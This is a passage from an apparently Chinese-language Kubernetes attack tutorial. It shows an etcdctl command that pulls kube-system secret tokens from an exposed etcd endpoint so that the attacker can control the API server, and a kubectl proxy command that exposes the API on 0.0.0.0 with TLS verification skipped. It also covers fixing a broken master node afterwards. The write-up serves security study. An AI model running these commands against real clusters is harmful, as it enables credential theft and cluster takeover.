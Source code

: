 ```bash
etcdctl --endpoints=192.168.108.100:2379 get --keys-only --prefix=true "/" | grep /secrets/kube-system/clusterrole
```

如果上述代码执行成功获取了 token，即可利用该 token 去 6443 端口控制 API

### 利用 Kubectl Proxy

当运维人员需要某个环境暴露端口或者 IP 时，会用到 Kubectl Proxy，该命令类似于 php 或者 python 起一个 web 服务的命令一样，运维人员使用 kubectl proxy 命令就可以使 API server 监听在本地的 8009 端口上：

```bash
kubectl --insecure-skip-tls-verify proxy --accept-hosts=^.*$ --address=0.0.0.0 --port=9999
```

[![](assets/1701678402-12263c75663508b300de29878345e3f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190921-e9dc0328-8f70-1.png)  
这里回到 master 节点发现 kubectl 执行不了命令了  
[![](assets/1701678402-28adb9198e624bf3e9a4c7a86d9764f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190921-e9f4f964-8f70-1.png)  
利用指令排查下

```bash
kubectl get cs
```

[![](assets/1701678402-e449d8fd7b9f3f83fb966a0a39923fde.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190922-ea205906-8f70-1.png)  
发现问题出在了 controller-manager 中，进入 manifests 中的 kube-scheduler.yaml，将多余的内容即红框中的内容删除，再次重启 kubectl 即可

```bash
systemctl restart kubectl.service
```
